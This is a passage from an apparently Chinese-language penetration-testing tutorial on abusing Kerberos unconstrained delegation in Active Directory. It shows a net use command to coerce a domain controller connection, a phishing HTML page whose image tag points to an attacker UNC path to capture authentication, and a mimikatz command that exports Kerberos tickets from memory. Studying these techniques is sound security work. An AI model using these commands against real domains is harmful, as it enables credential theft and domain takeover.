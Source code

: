 ### 2.2.3. 机器通讯

使用域控与委派机器通讯，为的就是让域控将直接的请求信息发送给域内主机，域内主机则会将请求的票据保存到内存中，当然这里可能会出现一个问题就是，域控平常很少主动去连接域内主机，同时就算连接，为什么需要使用查询操作。

其实这里还可以采用钓鱼的方式进行通讯，简单来说就是在域内主机上找到一台开启web服务的主机，并且控制它，挂一个黑连上去，引诱去点击，不过说真的，正常去访问网页，谁去使用域控服务器去访问网页，除非无意间。

```
net use \\WIN-U7VV2NU5E5Q



网页钓鱼：
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
  <img src="file:///\\192.168.3.10\2">
</body>
</html>
```

![image-20230801160725802](assets/image-20230801160725802-17299573757665.png)

### 2.2.4. 导出票据

这里域控刚刚请求的票据从内存中导出来。

```
mimikatz sekurlsa::tickets /export
```
